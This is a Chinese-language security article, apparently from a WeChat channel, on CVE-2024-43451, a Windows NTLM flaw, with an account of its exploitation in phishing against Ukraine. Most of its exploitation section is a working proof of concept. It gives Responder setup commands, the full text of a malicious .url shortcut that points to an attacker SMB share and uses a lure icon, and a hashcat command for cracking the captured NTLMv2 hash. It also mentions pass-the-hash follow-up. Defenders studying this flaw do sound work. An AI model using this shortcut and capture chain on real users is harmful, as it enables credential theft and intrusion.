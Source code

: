 #  CVE-2024-43451 Windows NTLM 漏洞，允许攻击者使用恶意快捷方式强制身份验证并捕获 NTLM 哈希   
 Ots安全   2025-01-25 10:20  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
**描述**  
- 名称：CVE-2024-43451  
  
- CVSSv3 评分：6.5  
  
- 受影响的版本：2024 年 11 月补丁之前的所有 Microsoft Windows 版本  
  
CVE-2024-43451 是 Microsoft Windows 中的一个零日漏洞，攻击者可以利用该漏洞在与用户进行最少交互的情况下捕获 NTLMv2 密码哈希，从而可能导致凭据被盗。一种常用的利用方法是利用 SMB 连接上的 NTLM 身份验证来捕获远程服务器的哈希。此漏洞已在 2024 年 11 月的更新中得到修补。建议用户应用相关的安全更新以降低风险。  
  
此次攻击被发现利用了一封从受感染的乌克兰政府服务器发送的网络钓鱼电子邮件。该电子邮件包含一个恶意 URL 文件。当用户通过右键单击、删除或移动文件与文件交互时，漏洞就会被激活。这会触发与攻击者服务器的连接，从而下载更多恶意文件，例如 SparkRAT 恶意软件（一种开源远程访问木马，允许攻击者控制受害者的系统）。  
  
**NTLM 身份验证**  
  
NTLMv2 是目前最安全且最具相关性的版本。  
- 客户端连接到服务器并请求访问资源。  
  
- 服务器生成一个随机数（一个随机的 16 字节质询）并将其发送给客户端。  
  
- 客户端发送使用 HMAC-MD5 算法生成的响应，其中包括密码哈希（使用 NT 哈希算法）、服务器随机数、时间戳、客户端随机数等。  
  
- 服务器使用 NT 哈希并重复相同的计算来生成自己的 NTLM 响应，一旦它们各自有了自己的响应，它们就可以对它们进行比较。  
  
- 一旦比较，服务器就会决定是否接受或拒绝连接。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tadePSvn0KHagcRnicODXYLvjGvQnaHXGUy4hwic5THfjCib8ae5TicJXqKK0Cy6urd6hVQgnqO5IcNAIQ/640?wx_fmt=other&from=appmsg "")  
  
**开发**  
  
**POC 设置**  
  
为了为此 POC 创建工作环境，我们必须设置一个目标 Windows 机器，其版本号  
  
在 2024 年 11 月之前发布，以及一个远程服务器来模拟捕获哈希：  
  
1.下载并安装Responder以通过 SMB 捕获哈希：  
  
```
brew install python3
git clone https://github.com/lgandx/Responder.git
cd Responder
sudo python3 Responder.py -I <put your network interface> -v
```  
  
  
2.确保目标 Windows VM 与远程“黑客”环境之间成功连接。  
  
3.通过进入资源管理器并输入以下内容来测试响应程序设置\\(remote server IP)：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadePSvn0KHagcRnicODXYLvj6AwHiaQHMy0Gl9icf5jC8g8RNdOuRKcBicrY6MjC6ICnUa4lD1B6VIz3Q/640?wx_fmt=png&from=appmsg "")  
  
**创建漏洞**  
  
由于所有漏洞利用都需要与远程服务器建立 SMB 连接，因此我们可以使用一个简单的文件来模拟它：  
  
1.打开记事本  
  
2.输入以下内容：  
  
您可以输入任何可以诱使用户进行交互的图标，我使用了“已满垃圾桶”图标（32）  
  
```
[InternetShortcut]
URL=\\(remote server IP)\share
IconIndex=32                    
IconFile=C:\Windows\System32\shell32.dll
```  
  
  
3.将其保存为（名称）.url  
  
**活动进程**  
  
一旦文件准备好并传送到目标系统，窃取哈希只需要很少的用户交互。此交互可能涉及以下任何操作：  
- 下载文件并访问“下载”文件夹  
  
- 右键单击文件  
  
- 将文件移动到另一个文件夹  
  
**Cracking**  
  
Mimikatz有了未加密的哈希值，我们可以尝试破解它以显示纯文本密码，或者使用或之类的工具在“传递哈希”攻击中使用它Metasploit。  
  
在我们的例子中，一个简单的Hashcat命令就可以显示我的密码：hashcat -m 5600 leak.txt rockyou.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadePSvn0KHagcRnicODXYLvj1s6UpqOOkTha6HW2ED77p5yZ2dmTgvlQbLOUA8dBdsicnjvgoicKjrfQ/640?wx_fmt=png&from=appmsg "")  
  
- https://github.com/RonF98/CVE-2024-43451-POC  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
